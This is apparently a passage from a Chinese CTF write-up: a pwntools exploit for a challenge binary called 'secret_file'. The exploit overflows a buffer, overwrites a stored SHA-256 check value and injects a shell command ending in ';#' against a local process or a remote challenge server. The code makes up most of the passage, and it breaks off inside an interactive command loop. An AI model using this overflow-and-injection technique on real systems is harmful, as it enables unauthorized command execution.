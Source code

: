 另附：网上有师傅给出了v17的正确求法。

```python
#coding:utf-8
 
from pwn import *
import hashlib
 
#context.log_level = 'debug'
 
debug = 1
 
 
def exp(string, debug):
	if debug == 1:
		r = process('./secret_file')
		#gdb.attach(r)
		#pause
	else:
		r = remote('111.198.29.45', 37598)
 
 
	payload = 'a' * 0x100
 
	memory = ''
 
	sha256 = hashlib.sha256(payload).hexdigest()
 
	for i in range(0, len(sha256), 2):
		memory = memory + chr(int(sha256[i:i + 2], 16))
 
	memory = list(memory + '\x00' * 0x41)
 
	for i in range(0x20):
		tmp = '%02x'%ord(memory[i]) + '\x00'
		memory[0x20 + 2 * i] = tmp[0]
		memory[0x20 + 2 * i + 1] = tmp[1]
		memory[0x20 + 2 * i + 2] = tmp[2]
 
	v15 = ''.join([i for i in memory[0x20:-1]])
	
	'''
		string中不要用\x00填充
		payload = payload + (string + ';#').ljust(0x1f8 - 0x1dd, '\x00') + v15 + '\n'
		否则strcpy的时候会进行截断，v15无法正常输入
	'''
 
	'''
		v15后面不要跟\x00
		payload = payload + (string + ';#').ljust(0x1f8 - 0x1dd, ' ') + v15 + '\x00\n'
		否则strrchr的时候，str会以\x00作为结尾，则\n被截断
	'''
 
	payload = payload + (string + ';#').ljust(0x1f8 - 0x1dd, ' ') + v15 + '\n'
 
	r.send(payload)
	
	log.info('%s\n'%r.recv())
	r.close()
	
 
while True:
	print '[*] $ ',
	command = raw_input()[:-1]
```